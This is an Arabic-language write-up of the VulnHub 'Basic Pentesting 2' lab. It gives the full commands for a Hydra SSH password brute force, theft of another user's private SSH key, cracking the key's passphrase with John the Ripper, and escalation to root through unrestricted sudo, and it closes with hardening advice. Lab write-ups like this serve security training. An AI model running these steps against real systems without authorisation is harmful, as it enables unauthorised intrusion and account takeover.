

# Basic Pentesting 2 — تقرير اختبار الاختراق الشامل

[English Version](README.md) | [📖 قراءة التقرير بالعربية](README_AR.md)
[📄 تحميل التقرير الأصلي بصيغة PDF](./Basic_Pentesting_2_Professional_Writeup.pdf)

---

## 📋 بطاقة الهدف والمعلومات العامة

| العنصر | التفاصيل |
| :--- | :--- |
| **اسم الماشين** | Basic Pentesting 2 (منصة VulnHub) |
| **آي بي الهدف** | `10.10.10.5` |
| **آي بي المهاجم** | `10.10.10.3` |
| **نظام التشغيل** | Linux (Ubuntu) |
| **مستوى الصعوبة** | سهل إلى متوسط |
| **المفاهيم الأساسية** | تعداد مستخدمي SMB، تخمين SSH، كسر تشفير مفاتيح RSA، تصعيد الصلاحيات بـ Sudo |
| **موطئ القدم الأولي** | كسر كلمة سر المستخدم `jan` عبر SSH |
| **التنقل الأفقي (Lateral Movement)** | سرقة المفتاح الخاص `id_rsa` لليوزر `kay` وفك تشفيره بـ John |
| **تصعيد الصلاحيات (PrivEsc)** | استخدام صلاحية `sudo su` الممنوحة بالكامل للمستخدم kay |

---

## 🎯 مسار الهجوم (Attack Chain)



---

## 🔍 جدول ملخص الثغرات

| الثغرة | مستوى الخطورة | الخدمة المتأثرة | التأثير |
| :--- | :---: | :---: | :---: |
| **كلمة مرور ضعيفة للمستخدم jan** | عالي (High) | بورت 22 (SSH) | دخول غير مصرح للنظام |
| **تصريحات خاطئة لمفاتيح SSH الخاصة** | عالي (High) | مسار `/home/kay/.ssh/id_rsa` | سرقة المفاتيح والتنقل بين الحسابات |
| **صلاحيات Sudo كاملة وغير مقيدة** | حرج (Critical) | ملف `/etc/sudoers` | سيطرة كاملة على النظام بدون قيود |

---

## 🛠️ خطوات الهجوم العملية

### 1. الاستطلاع وتعداد المستخدمين
* فحص منافذ SMB عبر سكريبتات Nmap كشف عن وجود مستخدمين محليين: `jan` و `kay`.
* باستخدام أداة `Hydra` ضد منفذ SSH للمستخدم `jan`:
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.5
```
تم كشف كلمة السر: `armando`.

### 2. التنقل الأفقي وسرقة مفتاح SSH
* بعد الدخول كـ `jan`، كشف فحص المجلدات أن مجلد المستخدم الآخر `/home/kay` قابل للقراءة.
* تم العثور على المفتاح الخاص `id_rsa` ونقله لجهاز كالي.
* المفتاح محمي بـ Passphrase. قمنا بتحويل الهاش وكسره بأداة `John the Ripper`:
```bash
ssh2john id_rsa > kay_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txt
```
كلمة فك تشفير المفتاح: `beeswax`.

### 3. السيطرة الكاملة على السيرفر (Root)
* تسجيل الدخول كـ `kay` باستخدام المفتاح:
```bash
chmod 600 id_rsa
ssh -i id_rsa kay@10.10.10.5
```
* فحص صلاحيات السوبر يوزر:
```bash
sudo -l
```
المستخدم `kay` لديه تصريح كامل `(ALL : ALL) ALL`.
قمنا بتنفيذ:
```bash
sudo su -
whoami
root
```
تم الحصول على صلاحية الجذر بالكامل.

---

## 🛡️ توصيات الحماية
1. **قفل أذونات المجلدات الخاصة:** التأكد من أن مجلدات `/home` لا يمكن قراءتها بواسطة المستخدمين الآخرين (`chmod 700`).
2. **تقييد صلاحيات Sudoers:** عدم منح صلاحية `ALL` الشاملة وتحديد الأوامر المطلوبة فقط لكل مستخدم.
